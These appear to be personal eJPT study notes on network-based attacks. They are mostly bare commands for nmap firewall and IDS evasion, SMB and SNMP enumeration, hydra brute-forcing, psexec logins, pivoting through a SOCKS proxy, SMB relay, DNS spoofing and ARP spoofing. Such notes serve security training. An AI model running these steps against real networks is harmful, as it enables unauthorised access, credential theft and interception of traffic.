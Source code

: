 # # 08hakr's Short Notes eJPT
# 007 INE-Host-and-Network-Penetration-Testing-Network-Based-Attacks-Course-File

## Firewall Detection
- nmap -Pn -sV -F -sS <target-ip>
if the ports are filtered instend of Closed then we can say no firewall
- nmap -Pn -sV -F -sA -p<open-ports> <target-ip>  here if the openports are said to be filtered then there is a firewall
## IDS detection
- nmap -Pn -sS -sV -F -f <target-ip> (fragmentation)
- nmap -Pn -sS -sV -F -f --mtu 32  <target-ip> (fragmentation)
- nmap -Pn -sS -sV -F -f --data-length 200 -D <decoy-ip-Gateway-ip> <target-ip>
- nmap -Pn -sS -sV -F -f --data-length 200 -g 53 -D <decoy-ip-Gateway-ip> <target-ip> (we-are-making the request that it coming from port 53)nmap -Pn -sS -sV -F -f --data-length 200 -D <decoy-ip-Gateway-ip> <target-ip>

## Service Enumeration
### SMB and NetBIOS Enumeration (Repeat with proxy chaining)
- scan the open ports then move scan the versions then scan with scripts. find the users with enum users module then brute force the passwords with users which are found find shares and connect to the server with psexec
- nmap <target-ip1>
- nbtscan <target-ip1>
- nbtscan <target-ip1>/24
- nblookup -A <target-ip1>
- nmap -sU -p137 <target-ip1>
- nmap -sU -sv -T4 --script=nbstat.nse -p137 -Pn -n <target-ip1>
- nmap -sV -p139,445 <target-ip1>
- SMB- nmap -p445 --script smb-protocols <target-ip1>
- nmap -p445 --script smb-security-mode <target-ip1>
- smbclient -L <target-ip1> /share details
- nmap -445 --script smb-enum-users <target-ip1>
- hydra -L users.txt -P unix_passwords.txt <target-ip1> smb
- psexec administrator@<target-ip1>
- OR metasploit module of psexec
- if doesnt work then switch to the 64 bit meterpreter payload]

- run autoroute -s <target-ip-subnet>/24
- cat /etc/proxychains4.conf
- search socks
- use server/socks_proxy
- set version 4a
- set srvport 9050
- run
- netstat -antp

- proxychains nmap <target-ip2> -sT -Pn -sV -p445

- previous target session- shell
- net view <target-ip2>
- migrate -N ecplorer.exe
- net view <target-ip2>
### Mapping the share to allows us to view the content of the that drives
- net use D: \\<target-ip2>\Documents
- net use K: \\<target-ip2>\K$
- dir D:
- dir K:


### SNMP Enumeration
- 161, 162 its a UDP port
- nmap -sU -p161 <target-ip>
- ls -al /usr/share/nmap/nselib/data/ | grep snmp (snmpcommunities.lst)
- nmap -sU -p161 --script=snmp-brute <target-ip>
- snmpwalk -v 1 -c public <target-ip>
- nmap -sU -p 161 --script snmp-* <target-ip> > snmp_info
- find SMB credential with hydra
- then login with psexec



## SMB Relay Attack
- msfconsole
- set srvhost <attacker-ip>
- set lhost <attacker-ip>
- set smbhost <target-smb-host-ip>
### DNS Spoofing
- echo "<attacker-ip> *.sportsfoo.com" > dns
- dnsspoof -i eth1 -f dns
-
### ip forwarding on
- echo 1 > /proc/sys/net/ipv4/ip_forward
- arpspoof -i eth1 -t <target-client-ip> <gatway>
- arpspoof -i eth1 -t <gatway> <target-client-ip>
